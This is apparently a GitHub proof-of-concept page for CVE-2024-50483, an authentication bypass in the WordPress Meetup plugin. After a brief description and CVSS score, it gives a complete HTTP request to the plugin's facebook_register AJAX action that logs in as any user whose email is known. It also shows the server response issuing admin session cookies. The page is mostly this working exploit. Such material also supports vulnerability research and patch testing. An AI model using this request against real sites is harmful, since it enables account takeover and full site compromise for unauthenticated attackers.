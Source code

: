 # CVE-2024-50483
Meetup &lt;= 0.1 - Authentication Bypass via Account Takeover

# Description:
The Meetup plugin for WordPress is vulnerable to authentication bypass in all versions up to, and including, 0.1. This is due to the plugin not properly verifying a user's identity prior to authenticating them via the facebook_register() function. This makes it possible for unauthenticated attackers to log in as any user, granted they know their email address.

```
CVE: CVE-2024-50483
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 9.8
Slugs: meetup
```

Note: You need to know the users email address you want to login as.

POC
---

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: kubernetes.docker.internal
Content-Type: application/x-www-form-urlencoded
Content-Length: 149

action=meetup_fb_register&email=admin@admin.com&first_name=Test&last_name=User&id=12345678901234567890&type=token&link=https://example.com/user/test/

```

Response
--

```
HTTP/1.1 200 OK
Date: Tue, 05 Nov 2024 21:37:23 GMT
Server: Apache/2.4.57 (Debian)
X-Powered-By: PHP/8.2.13
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Set-Cookie: wordpress_e2df32a6c3e7076dd7dc7d3f3fec39aa=admin%7C1732052243%7Cip8EqMGbc9Iect9L7RPRWfDKjucVdkdSKINkRz5VxrM%7Cb30fbbd9ddce680d1b3992fc121335abfede4d30ed0ddfea33cab3c7a9c800dd; expires=Wed, 20 Nov 2024 09:37:23 GMT; Max-Age=1252800; path=/wp-content/plugins; HttpOnly
Set-Cookie: wordpress_e2df32a6c3e7076dd7dc7d3f3fec39aa=admin%7C1732052243%7Cip8EqMGbc9Iect9L7RPRWfDKjucVdkdSKINkRz5VxrM%7Cb30fbbd9ddce680d1b3992fc121335abfede4d30ed0ddfea33cab3c7a9c800dd; expires=Wed, 20 Nov 2024 09:37:23 GMT; Max-Age=1252800; path=/wp-admin; HttpOnly
Set-Cookie: wordpress_logged_in_e2df32a6c3e7076dd7dc7d3f3fec39aa=admin%7C1732052243%7Cip8EqMGbc9Iect9L7RPRWfDKjucVdkdSKINkRz5VxrM%7Cecd2fbdf078b2f2b3735b5e423cfae0efa73526e26e17f3cd192896597c7b650; expires=Wed, 20 Nov 2024 09:37:23 GMT; Max-Age=1252800; path=/; HttpOnly
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```
